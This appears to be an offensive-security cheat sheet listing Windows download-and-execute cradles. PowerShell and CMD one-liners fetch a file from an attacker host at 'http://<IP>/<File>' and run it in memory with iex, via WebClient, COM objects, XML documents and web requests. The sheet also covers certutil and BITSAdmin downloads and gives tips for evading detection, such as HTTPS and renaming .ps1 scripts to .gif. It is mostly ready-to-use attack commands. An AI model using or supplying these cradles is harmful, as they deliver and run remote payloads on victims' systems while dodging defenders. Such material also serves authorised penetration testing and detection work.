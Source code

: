 # Download and Execution Methods

## Tools

[Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)



> In Memory

```
Net.WebClient DownloadString Method
Net.WebClient DownloadData Method
Net.WebClient OpenRead Method
.NET [Net.HttpWebReqest].class
Word.Application COM Object
Excel.Application COM Object
InternetExplorer.Application COM Object
MSXML2.ServerXmlHTTP Com Object
Certutil.exe w/ -ping argument
```


If possible use SSL on attacking machine and use HTTPS to further evade detection


Further evade detection by renaming scripts from .ps1 to something else such as .gif. Powershell can still execute .gif files as Powershell files.



Multi command scripts below can be converted to one line with ';' between commands.


**On Disk**

```
Net.WebClient DownloadFile Method
BITSAdmin.exe
Cerutil.exe w/ -urlcahche argument
```

**Net.WebClient Download String Method**

> Powershell
```powershell
# Standard download cradle
iex (New-Object Net.Webclient).DownloadString("http://<IP>/<File>")

# Internet Explorer Downoad cradle
$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://<IP>/<File>
');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

# Requires PowerShell V3+
iex (iwr 'http://<IP>/<File>')

$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://<IP>/<File>',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://<IP>/<File>")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

> CMD
```batch
powershell.exe iex (New-Object Net.Webclient).DownloadString('http://<IP>/<File>')
```

**Net.WebClient Single Quotes Download and store**

> Powershell
```markup
iex (new-Object Net.WebClient).DownloadFile('http://<IP>/<File>', 'C:\programdata\<File>')
```


> CMD
```
powershell.exe iex (new-Object Net.WebClient).DownloadFile('http://<IP>/<File>', 'C:\programdata\<File>')
```

**Net.WebClient User Agent Download**

```
$downloader = New-Object System.Net.WebClient
$downloader.Headers.Add ("")
$payload = "http://<IP>/<File>"
$command = $downloader.DownloadString($payload)
iex $command
```

## XML Download and execute.

```aspnet
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://<IP>/<File.xml>")
iex $xmldoc.command.a.execute
```

### One Line

```markup
$xmldoc = New-Object System.Xml.XmlDocument ; $xmldoc.Load("http://<IP>/<File.xml>") ; iex $xmldoc.command.a.execute
```

### Script Example

> Execute.xml
```markup
<?xml version="1.0"?>
<command>
		<a>
			<execute>Get-Process</execute>
		</a>
</command>
```

